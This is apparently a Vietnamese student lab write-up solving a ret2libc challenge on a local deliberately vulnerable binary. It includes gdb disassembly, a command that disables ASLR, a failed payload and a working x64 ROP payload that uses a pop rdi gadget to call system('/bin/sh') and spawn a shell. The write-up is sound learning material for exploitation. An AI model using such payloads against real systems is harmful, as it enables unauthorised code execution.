 # **ret2libc**

## Phân tích

Thử nhập một string dài:

```
┌──(kali㉿kali)-[~/Desktop/week10/ret2libc]
└─$ python -c 'print("a"*100)' | ./ret2libc
Try to exec /bin/sh
Read 101 bytes. buf is aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaae
No shell for you :(
zsh: done                python -c 'print("a"*100)' | 
zsh: segmentation fault  ./ret2libc
```

=> Có lỗ hổng

Sử dụng gdb, tìm được hàm main() và vuln():

```
Dump of assembler code for function main:     
   0x0000000000400610 <+0>:     push   %rbp                                                                           
   0x0000000000400611 <+1>:     mov    %rsp,%rbp   
   0x0000000000400614 <+4>:     sub    $0x10,%rsp         
   0x0000000000400618 <+8>:     mov    %edi,-0x4(%rbp)
   0x000000000040061b <+11>:    mov    %rsi,-0x10(%rbp)
   0x000000000040061f <+15>:    mov    $0x4006f3,%edi
   0x0000000000400624 <+20>:    mov    $0x0,%eax           
   0x0000000000400629 <+25>:    call   0x400490 <printf@plt>
   0x000000000040062e <+30>:    mov    $0x0,%eax
   0x0000000000400633 <+35>:    call   0x4005c6 <vuln>     
   0x0000000000400638 <+40>:    mov    $0x0,%eax
   0x000000000040063d <+45>:    leave                      
   0x000000000040063e <+46>:    ret
```

```
(gdb) disas vuln                                           
Dump of assembler code for function vuln:
   0x00000000004005c6 <+0>:     push   rbp
   0x00000000004005c7 <+1>:     mov    rbp,rsp
   0x00000000004005ca <+4>:     sub    rsp,0x60
   0x00000000004005ce <+8>:     lea    rax,[rbp-0x60]
   0x00000000004005d2 <+12>:    mov    edx,0x190
   0x00000000004005d7 <+17>:    mov    rsi,rax
   0x00000000004005da <+20>:    mov    edi,0x0
   0x00000000004005df <+25>:    call   0x4004a0 <read@plt>
   0x00000000004005e4 <+30>:    mov    DWORD PTR [rbp-0x4],eax
   0x00000000004005e7 <+33>:    lea    rdx,[rbp-0x60]
   0x00000000004005eb <+37>:    mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004005ee <+40>:    mov    esi,eax
   0x00000000004005f0 <+42>:    mov    edi,0x4006c4
   0x00000000004005f5 <+47>:    mov    eax,0x0
   0x00000000004005fa <+52>:    call   0x400490 <printf@plt>
   0x00000000004005ff <+57>:    mov    edi,0x4006df
   0x0000000000400604 <+62>:    call   0x400480 <puts@plt>
   0x0000000000400609 <+67>:    mov    eax,0x0
   0x000000000040060e <+72>:    leave  
   0x000000000040060f <+73>:    ret    
End of assembler dump.
```

Trong đó hàm vuln() có một biến local chứa input của người dùng nằm ở rbp-0x60 => có thể stack overflow.

Tương tự [stack6](https://gitlab.com/cs_hoang_hai_long/week9/-/tree/main/protostar/stack/stack6):

- Tìm địa chỉ system: 0x7ffff7e21860
- Tìm địa chỉ string /bin/sh: 0x7ffff7f70882

Tắt ASLR:

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

**Fail attempt #1**

```
python2 -c 'print("a"*0x68 + "\x60\x18\xe2\xf7\xff\x7f\x00\x00" + "\x82\x08\xf7\xf7\xff\x7f\x00\x00")' | ./ret2libc
```

Trong đó:

- "a"*0x68: padding
- "\x60\x18\xe2\xf7\xff\x7f\x00\x00": địa chỉ hàm system ghi đè lên return address hàm vuln()
- "\x82\x08\xf7\xf7\xff\x7f\x00\x00": địa chỉ string "/bin/sh"

Tuy nhiên trong x64, arguments không được pass vào hàm qua stack như x86 nữa => Fail

**Final**

Trong x64, argument đầu tiên được nạp vào thanh ghi RDI.

=> exploit

```
python2 -c 'print "a"*0x68 + "\xa3\x06\x40\x00\x00\x00\x00\x00" + "\x82\x08\xf7\xf7\xff\x7f\x00\x00" + "\x60\x18\xe2\xf7\xff\x7f\x00\x00" + "\x00\x71\xe1\xf7\xff\x7f\x00\x00"' | ./ret2libc 
```

Trong đó:

- "a"*0x68: stackoverflow đến ngay trước return address.
- "\xa3\x06\x40\x00\x00\x00\x00\x00": 0x4006a3: địa chỉ của 2 instructions ```pop rdi; ret```
- "\x82\x08\xf7\xf7\xff\x7f\x00\x00": 0x7ffff7f70882: địa chỉ của string "/bin/sh" trong libc, cách tìm như trong stack6. Địa chỉ này sẽ được chuyển vào thanh ghi rdi thông qua instructions `pop rdi` ở trên.
- "\x60\x18\xe2\xf7\xff\x7f\x00\x00": 0x7ffff7e21860: địa chỉ hàm system(), cách tìm như trong stack6. Địa chỉ này được chuyển vào thanh ghi rip thông qua instructions `ret` ở trên.
- "\x00\x71\xe1\xf7\xff\x7f\x00\x00": 0x7ffff7e17100: địa chỉ hàm exit(), địa chỉ này được chuyển vào thanh ghi rip thông qua instructions ở cuối hàm system() => không bị crash.

Kết quả:

```
process 7085 is executing new program: /usr/bin/dash 
```

# References

- ret2libc x64: <https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/>
-
